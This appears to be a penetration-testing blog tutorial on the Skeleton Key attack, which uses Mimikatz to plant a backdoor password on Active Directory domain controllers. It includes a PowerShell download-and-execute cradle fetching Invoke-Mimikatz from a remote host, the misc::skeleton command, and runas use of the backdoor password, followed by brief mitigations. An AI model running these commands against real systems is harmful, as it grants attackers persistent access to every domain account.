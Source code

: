 
In this article, I will explain the third technique for establishing persistence on the Domain Controller
# Skeleton Key Attack
## What is the Skeleton Key technique

The Skeleton Key technique involves injecting a backdoor password into the authentication process of Microsoft Windows Active Directory domain controllers. This backdoor password, typically generated by tools like Mimikatz, allows an attacker to bypass normal authentication mechanisms, effectively granting them access to any account within the Active Directory. The original passwords of the affected accounts remain intact and functional, while the backdoor password provides an additional means of unauthorized access for the attacker.
## Or In short
The idea behind this technique is to convert all passwords of users embedded in the Active Directory into another password, which is Mimikatz, while keeping their original passwords active.

### Prerequisites

	 - attacker having obtained Domain Admin rights. 
	 - Mimikatz is then executed on a Domain Controller.
	 - rebooting a Domain Controller will eliminate the malware.

I will do this attack from a Windows machine 

# Exploitation

we need upload Mimikatz in windows machine you can use Mimikatz.exe or Mimikatz.ps1 but i use Mimikatz.ps1

[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-1.png)](https://r00tven0m.github.io/)

Now I will execute the Mimikatz tool using this command:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://192.168.56.1/Invoke-Mimikatz.ps1')
```
[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-2.png)](https://r00tven0m.github.io/)
After that, we execute  this command:

```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```
[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-3.png)](https://r00tven0m.github.io/)

Now, a password has been added to each user, which is "mimikatz", while ensuring the effectiveness of their previous passwords.
Yes, with the Skeleton Key technique implemented, you can access a PowerShell session for the user `newadmin` for example, who is a member of the Domain Admins group, using the "mimikatz" password.

[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-4.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-5.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-6.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-7.png)](https://r00tven0m.github.io/)

If the Skeleton Key technique has been successfully applied and a backdoor password like `mimikatz` has been added to all user accounts in the Active Directory, including `newadmin`, then you can indeed use `runas` to execute a PowerShell session with the privileges of the `newadmin` user or any other user in the Active Directory.

Here's an example command to run a PowerShell session with the newadmin user's privileges:

```powershell
runas /user:cbank\abdessalam.louhidi "powershell.exe"
```

# Another Way if you need get ncat session 

[![Image Alt Text](/assets/img/posts/Persistence Skeleton Key/2024-02-14-8.png)](https://r00tven0m.github.io/)

# Some Mitigating Skeleton Key

1- `Monitor and Analyze Active Directory Logs`: Monitor Active Directory logs for suspicious activities, such as unusual login attempts, privilege escalations, or changes to user accounts. Analyzing these logs can help detect and respond to potential Skeleton Key attacks.

2- `Use Endpoint Detection and Response (EDR) Solutions`: Deploy endpoint detection and response solutions that can detect and respond to suspicious activities on endpoints, including attempts to execute Mimikatz or other malicious tools.

3 - Run lsass.exe as a protected process, it forces an attacker to load a kernel mode drive


We have reached the  end of the article.